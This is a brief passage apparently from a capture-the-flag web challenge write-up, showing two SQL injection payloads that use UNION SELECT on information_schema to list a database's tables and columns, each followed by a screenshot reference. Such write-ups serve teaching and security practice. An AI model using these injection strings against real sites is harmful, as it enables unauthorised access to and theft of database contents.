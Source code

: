 ```text
t35h' union select table_name from information_schema.tables#
```

<img src="/images/writeups/sogeti/web/05_result_tables.png">

```text
t35h' union select column_name from information_schema.columns#
```

<img src="/images/writeups/sogeti/web/06_result_columns.png">
